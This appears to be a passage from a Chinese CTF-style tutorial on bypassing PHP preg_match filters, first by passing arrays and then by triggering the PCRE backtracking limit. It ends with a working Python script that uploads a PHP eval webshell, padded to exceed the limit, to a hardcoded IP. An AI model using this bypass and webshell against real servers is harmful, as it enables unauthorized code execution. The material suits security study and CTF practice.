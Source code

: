 `preg_match`只能处理字符串，当传入的是数组时会返回`false`



## 回溯次数限制

`pcre.backtrack_limit`给php的正则匹配设定了一个回溯次数上限，默认为1000000，如果回溯次数超过这个数字，`preg_match`会返回`false`

例如:

```
正则表达式为: <\?.*[(`;?>].*   
输入为: <?php phpinfo();//aaaaa
```

实际匹配时的执行流程为:

<img src="/images/bypass/12.png" alt="image-20221017221437656" style="zoom:67%;" />



见上图，可见第4步的时候，因为第一个`.*`可以匹配任何字符，所以最终匹配到了输入串的结尾，也就是`//aaaaa`。但此时显然是不对的，因为正则显示`.*`后面还应该有一个字符需要匹配:

```
[(`;?>].* 
```

所以NFA就开始回溯，先吐出一个`a`，输入变成第5步显示的`//aaaa`，但仍然匹配不上正则，继续吐出`a`，变成`//aaa`，仍然匹配不上……

最终直到吐出`;`，输入变成第12步显示的`<?php phpinfo()`，此时，`.*`匹配的是`php phpinfo()`，而后面的`;`则匹配上则被后面的表达式匹配到，这个结果满足正则表达式的要求，于是不再回溯。13步开始向后匹配`;`，14步匹配`.*`，第二个`.*`匹配到了字符串末尾，最后结束匹配。

所以在上面的匹配过程中, 一共回溯了8次(第5步-第12步)

**那么如果在需要绕过的正则表达式中见到了`.*`这样的模式, 且后面还有其他模式需要匹配的, 就可以通过在输入的字符串末尾传入超长字符串的形式来触发回溯次数限制**

在对前面例子里的表达式的绕过中,就可以:

```python
import requests
from io import BytesIO

files = {
  'file': BytesIO(b'aaa<?php eval($_POST[txt]);//' + b'a' * 1000000)
}

res = requests.post('http://51.158.75.42:8088/index.php', files=files, allow_redirects=False)
print(res.headers)
```
